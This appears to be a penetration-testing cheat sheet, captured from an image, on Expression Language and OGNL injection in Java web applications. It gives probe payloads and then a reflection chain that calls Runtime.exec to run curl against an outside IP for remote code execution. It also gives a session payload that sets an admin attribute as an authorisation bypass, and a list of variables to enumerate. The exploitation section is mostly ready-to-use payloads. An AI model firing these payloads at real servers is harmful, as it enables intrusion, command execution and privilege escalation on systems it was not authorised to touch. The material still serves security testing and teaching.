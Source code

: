 # OGN/Expression Language Injection
## Check if it is Java application
 Java applications are easily recognizable as they tend to:
- Use common extensions like .jsp or .jsf
- Throw stack traces on errors
- Use known terms in headers like "Servlet”

## Test Payloads
```Java
{5*5}
${5*5}
#{5*5}
%{5*5}
%25{5*5}
```

## Exploitation
In order to make use of different java classes other than string, we will use Reflection. Reflection is java’s mechanism that allows us to invoke methods without initially knowing their names.

```java
// Get Class Name aka string
{"x".getClass()} 

// Subvert Object type
{"".getClass().forName("java.util.Date")}

// Enumerate Object Methods
{"".getClass().forName("java.util.Date").getMethods()[0].toString()}

// Check Runtime method exists
{"".getClass().forName("java.lang.Runtime").getMethods()[6].toString()}

// Invoke Runtime method to get RCE
{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl 10.10.10.14:808")}

// Enumerate server variables such as
${application}
${sessionScope.toString()}
${request}


// Sample authorization bypass
${pageContext.request.getSession().setAttribute("admin",true)}

// Use intruder to look for common variables such as
${user}
${password}
${password}

```